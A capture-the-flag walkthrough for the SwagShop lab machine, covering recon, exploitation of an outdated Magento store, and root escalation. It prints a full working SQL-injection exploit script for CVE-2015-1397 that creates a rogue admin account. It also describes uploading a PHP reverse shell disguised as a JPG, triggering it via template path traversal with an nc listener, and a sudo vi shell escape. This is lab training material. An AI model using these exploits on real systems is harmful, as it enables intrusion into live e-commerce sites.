


# SwagShop

## Introduction
This box is a linux machine that was originally rated as easy. It is running an old version of Magento which an open source PHP web platform designed for e-commerce, this version has an SQL injection vunerability that allows us register our own credentials and a Remote Command Execution vulnerability via a template feature. By using CVE scripts and imbedding PHP code into image files we can compromise the Magento plaform. Finally there is a privilege escalation vulnerability where the user can run the ``vim`` command via sudo, by using an escape character we can break out into a root shell.

| Skills Required | Skills Learned |
| ----- | ----------------------------------- |
| Basic knowledge of Linux | CVE Exploit |
| | Uploading and using web shells |

## Phase 1 – Reconnaissance
The reconnaissance of this box will include the usual port scan with ``nmap`` aswell as enumeration of web directories. In this walk-through the tool ``dirb`` will be used however other web enumeration tools can be used based on personal preference.

### Port Scanning
First we will do an nmap scan to determine any open ports and what services are running on them with ``nmap T4 -sC -sV -p- [target IP]``. Add ``-oN [filename]`` to save the results and avoid having to scan again later.


We can see from the scan that there are two ports open, a HTTP service at port 80 and a SSH service on port 22. When we try to visit this in the browser by using the IP address the URL we are automatically redirected to the ``swagshop.htb`` domain name but cannot load the web page.



This is due to the server using something called Virtual Host Routing, in order for us to be able to access the web service we will need to register the domain name to our systems list of host names. We can do this by editing the ``/etc/hosts`` file and adding ``[target ip]	swagshop.htb`` as a new line.

 {cat the file]


Now that we have the host name registered, we can visit the web service in our browser. Upon visiting the HTTP service we can notice the site running a version of Magento eCommerce.


We can enumerate the directories of this web service by using ``dirb http://[target ip]/ /usr/share/wordlists/dirb/common.txt``. We can add ``-o [filename]`` to save the output. The ``common.txt`` file is known as a wordlist, it is a large text file which contains a list of known common URL directory names. The enumeration tool will cycle through this list and output which words result in a desired HTTP response.


There are a lot of directories to investigate, many of which are useless to us, however the ``/media`` directory will be useful later as it is a directory that stores uploaded files. 

When browsing the site, it can be noticed that all features of the eCommerce app operate on directories after index.php:

 

If we do another dirb enumeration this time using ``dirb http://[target ip]/index.php /usr/share/wordlists/dirb/common.txt`` we find an interesting directory.

 

The admin directory has been found at ``index.php/admin``, when visiting it we are provided with a login page, we do not yet have the credentials but from this information we can begin to attack the target.

 

## Phase 2 - Exploitation
The exploitation of this web server involves using a modified script to replicate a Common Vulnerabilities and Exposure (CVE), then exploiting features of the web application to upload and execute a shell.

### Admin Credentials
When viewing the ‘home page’ on the web server, we can see a copyright tag suggesting this is a demo store from a Magento version from near 2014. 


Outdated software versions are highly likely to have known security vulnerabilities. After some online research into Magento vulnerabilities from the era, we can see a Common Vulnerabilities and Exposures (CVE) entry from 2015. 

https://www.cvedetails.com/cve/CVE-2015-1397/

CVE-2015-1397 states that the then current version and versions below were vulnerable to an SQL injection. We can use the internet to search for information related to this CVE and find it was named ‘Magento shoplift exploit’ and a proof of concept (PoC) script was available on Exploit Database. As it’s on Exploit Database with EDB-ID 37977, we can use ``searchsploit -m 37977`` to copy the exploit to our working directory.


Illustrated above, we will use this Remote Code Execution exploit script. The script uses a SQL injection vulnerability, it posts a request with a query to add an admin user via the vulnerable page at /admin/Cms_Wysiwyg/directive/index/.

We can modify this script to create a set of login credentials for ourselves on the target. The script requires some adjustments to work, some parts need commenting out and it needed to have the 'target' variable changed to "http://swagshop.htb/index.php/" since the Magento eCommerce admin directory is after index.php. We can also customise the credentials.

```
import requests
import base64
import sys

target = "http://swagshop.htb/index.php/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="anymuz", password="shoplifter")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds anymuz:shoplifter".format(target)
else:
    print "DID NOT WORK"
```

I saved my version of the script as ‘shoplift.py’ and run it with ``python shoplift.py.`` since it was made to work with python 2.



The script shows success, if we navigate back to the admin panel at index.php/admin we can login with the credentials.


### Deploying Web Shell
To get a shell on the target, we need to exploit the template feature to execute our shell which we need to upload. First we must go to the ‘Catalog’ tab and then click on ‘Manage Categories’.


We can then create a new category, when we do so we can see the option to upload a JPG file. 


The upload will only accept jpg files which means the reverse shell will need to be embedded inside, to do this we download the PHP reverse TCP shell from https://pentestmonkey.net/tools/web-shells/php-reverse-shell then after editing the script to include our IP address and listener port we can thhen save it as ``shell.jpg``.


We then can create the category with a random name, set ‘Is Active’ to ‘Yes’ and upload our shell.jpg as the thumbnail image.


After clicking ‘Save Category’, the file can be found at http://swagshop.htb/media/catalog/category/shell.jpg, however when we visit the page it attempts to load the image and ignores the php code, there is however a way to trick the web server into running the php code via the newsletter templates feature. 


But before doing that the security settings that prevent symlinks must be disabled; click the system tab then click configuration, then the ‘developer page’ under ‘Advanced’ at the very bottom left of the page (scroll down). Expanding the horizontal ‘Template Settings’ tab and set the ‘Allow Symlinks” feature to yes then click ‘Save Config’.


Now we can go back to the ‘Newsletter Templates’ page from before and then ‘add a new template.

 

After filling in required fields with random input data, we can see that code can be used in the text fields, at the bottom of the page there is a text field to add custom styles, by adding the code ``{{block type='core/template 'template='../../../../../../media/catalog/category/shell.jpg'}}`` we can have this template run our uploaded image with PHP.

 

If we then use ``nc -lnvp 4444`` to set our listener then click ‘preview template’ we can spawn our shell.

 

The web app reads the jpg file and executes the php script, spawning us a shell, we can see we have the user permissions of the apache server (www-data). I am able to gain the user flag at with ``cat /home/haris/user.txt``.

 

## Phase 3 - Privilege Escalation
The privilege escalation phase of this box involves the execution of a binary file with sudo.

### Exploiting vim with Sudo
In order to escalate to root, we can use sudo -l to try and see what permissions we have and find that there is root permissions for using bin/vi with html documents. 


If we look this up at https://gtfobins.github.io/gtfobins/vi/ we can see how it can be used to spawn an interactive system shell. If we do this while running vim via sudo, we can spawn a root shell.

By using ``sudo /usr/bin/vi /var/www/html/root.anymuz -c ‘:!/bin/bash’`` we can spawn a shell with root privileges from within the vim binary, then we are able to access root/root.txt.


We can now consider the box SwagShop as complete.

## Conclusion
In this machine we learned to modify CVE exploit scripts and exploit vulnerable features on web applications. To escalate privileges we learned to exploit a sudo permission that allowed us to use vim and gain root.